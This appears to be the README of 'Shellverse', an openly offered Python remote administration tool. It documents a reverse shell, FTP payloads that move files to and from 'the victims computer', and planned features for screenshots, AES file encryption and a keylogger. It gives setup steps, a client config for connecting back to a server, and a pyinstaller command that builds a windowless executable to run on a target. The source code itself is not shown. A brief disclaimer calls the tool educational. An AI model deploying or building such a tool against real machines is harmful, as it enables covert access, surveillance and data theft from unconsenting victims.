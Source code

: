 # Shellverse

## Overview

- Shellverse is a multi-client and multi-threaded Remote Administration Tool. 
- I wote most of this code years ago when learning python, i'll try to clean the code as much as I can.
- **Disclaimer**: Accessing a computer without authorization or permission is illegal, atleast in my country it is. This should only be used for educational / proof of concept purpose.

## Features
* [x] Reverse shell.
* [ ] Download files from the client's PC
* [ ] Upload files to the client's PC
* [ ] Take screenshots 
* [ ] Encrypt files on the clients PC using AES.
* [ ] Change the client's wallpaper
* [ ] Keylogger[upcoming]

## Supported Platforms
- The `reverse shell` payload has been tested on linux & windows computers.
- The other payloads such as `screenshot` & `wallpaper-changing` have only been tested on windows.

## Setup/ Installation requirements
### Requirements
* Python 3.
* `pip install -r requirements.txt`

## Usage

### Server
- `python server.py` for the server to listen for connections.
- Enter Host/Server address, to get an interactive prompt where you are able to view connected clients, select a specific client, and get a reverse shell

For help
```
shellverse> help
help:	Shows this help list
list:	show  connected targets
about:	print details about shellverse
show payloads:	show additional payloads
select:	Selects a target by its index. Takes index as a parameter
quit:	Stops current connection with a target. To be used when target is selected
shutdown:	Shuts server down
```

### Payloads
- The new version of shellverse makes it very easy to use and write new payloads.
- Refer to `payloads/abstract_payload_handler.py` to see how to write a payload class.
- To uses a payload add it to the payload registry in `payloads/payload_register.py`.
- Shellverse comes with some payload examples, you can easily add yours by implementing `AbstractPayloadHandler` interface.
- Will document existing payloads usage here
```
shellverse> show payloads

[1]ftp-upload: uploads a file from the attackers ftp server to the victims computer.
          usage~ upload ftpserver ftpuser ftp-password file-path

[2]ftp-download: downloads a file/folder from the victims computer to our ftp server.
            usage~download ftpserver ftpuser ftp-password file-path
```

### Client & server - getting a reverse shell.
- First edit the clients configurations in `client/settings.py`.
```python 
SERVER_ADDR= '127.0.0.1' # server address
SERVER_PORT=999 #server port, should be an integer not string
RETRY_TIME=5 #in seconds
```
- `python shellverse.py` on the client machine to make a tcp socket connection to the server

### Making a windows executable and getting a reverse connection
- You can make a noconsole exe to run on the target.
`pyinstaller --noconsole --onefile shellverse.py`
run `pyinstaller --help` for more options such as an icon for the exe file.

### Getting a reverse connection
- Execute the exe in the targets machine, run the server script on the Host machine and a wait a reverse connection.
```
Enter Host address>192.168.0.24
shellverse> 
Connection has been established: DESKTOP-R5UIHJE (192.168.0.31)
```

## Contributing
- Fork  the repo, add payloads(using the documented method) / fix bugs or any other contribution, and make a pull request.

## License
This project is Licensed under the MIT open source license
